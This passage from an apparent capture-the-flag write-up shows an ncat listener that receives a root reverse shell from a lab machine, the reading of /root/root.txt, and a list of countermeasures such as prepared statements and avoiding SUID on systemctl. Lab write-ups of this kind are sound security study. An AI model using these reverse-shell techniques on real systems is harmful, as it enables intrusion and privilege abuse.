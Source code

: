 On my Kali machine, I was presented with reverse shell session with root privileges:

```none
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:48472.
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
d41d8cd98f00b204e9800998ecf84271
```

## Countermeasures

* Use [prepared statements](https://dev.mysql.com/doc/refman/8.0/en/sql-prepared-statements.html) so that the database doesn't interpret data as code.
* Upgrade to the latest version of PhpMyAdmin.
* Use stronger passwords (i.e. at least 28 randomly generated alpha-numeric with symbols) to make them harder to crack.
* Avoid using code that directly invokes shell commans like python's `os.system()`. Prefer using safer platform APIs instead. A less effective countermeasure is to whitelist permitted values rather than implementing a blacklist. For example, you can validate whether the `command` value is an IP address or resolves to one.
* For users that need to invoke systemctl, prefer using sudo with a password rather than setting root SUID permissions on the binary if possible. In the case of a breach, this would ensure that an attacker would also need the compromised user's password.
